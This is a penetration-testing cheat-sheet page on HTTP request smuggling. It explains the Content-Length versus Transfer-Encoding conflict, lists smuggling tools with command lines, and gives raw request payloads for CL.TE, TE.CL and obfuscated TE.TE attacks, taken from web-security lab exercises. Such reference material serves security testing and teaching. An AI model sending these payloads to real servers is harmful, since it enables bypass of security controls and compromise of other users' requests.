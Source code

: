 # HTTP Request Smuggling

## General

{% hint style="info" %}
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users. Request smuggling attacks involve placing both the Content-Length header and the Transfer-Encoding header into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers: Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the Content-Length header and the Transfer-Encoding header.
{% endhint %}

## Tools

```bash
# https://github.com/defparam/smuggler
python3 smuggler.py -u <URL>
# https://github.com/defparam/tiscripts

# https://github.com/anshumanpattnaik/http-request-smuggling/
python3 smuggle.py -u <URL>

# https://github.com/assetnote/h2csmuggler
go run ./cmd/h2csmuggler check https://google.com/ http://localhost


# HTTP/2
# https://github.com/BishopFox/h2csmuggler
```

## Samples

```http
- The Content-Length header is straightforward: it specifies the length of the message body in bytes. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    q=smuggling

- The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    b
    q=smuggling
    0



• CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
   ◇ Find - time delay:
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    A
    X
• TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
   ◇ Find time delay:
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6

    0

    X
• TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

- CL.TE
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked

    0

    G
    The second response should say: Unrecognized method GPOST.

 - TE.CL
    In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0

 - TE.TE: obfuscating TE Header
     In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
    Using Burp Repeater, issue the following request twice:
    POST / HTTP/1.1
    Host: your-lab-id.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked
    Transfer-encoding: cow

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0
```

![](../../.gitbook/assets/20200520131941-1-.jpg)



